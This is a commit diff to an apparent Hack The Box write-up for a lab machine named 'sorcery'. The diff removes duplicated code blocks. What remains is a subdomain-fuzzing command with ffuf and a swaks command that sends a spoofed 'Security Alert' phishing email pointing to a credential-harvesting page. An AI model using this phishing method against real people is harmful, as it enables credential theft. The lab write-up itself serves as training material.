

Before and after one commit to Respilot/writeup, a Jekyll site: the page built from _writeups/sorcery.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update sorcery.md

```diff
--- a/_writeups/sorcery.md
+++ b/_writeups/sorcery.md
@@ -15,11 +15,7 @@ Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:
 
 Enumerate virtual hosts with `ffuf`:
 
-<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffff00">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>
-
 <pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffd700">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>
-
-<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffff00">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200</span></code></pre>
 
 
 
@@ -31,10 +27,7 @@ Capture traffic with a rogue host and `mitmproxy`:
 
 Send a phishing email to capture credentials:
 
-<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffff00">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
 <pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffd700">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
-<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffff00">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
-<pre><code><span style="color:#00ffff">└──╼[👾]~/machine/guardian $</span> <span style="color:#ffff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>
 
 Extract the captured credentials from the proxied session:
 
```
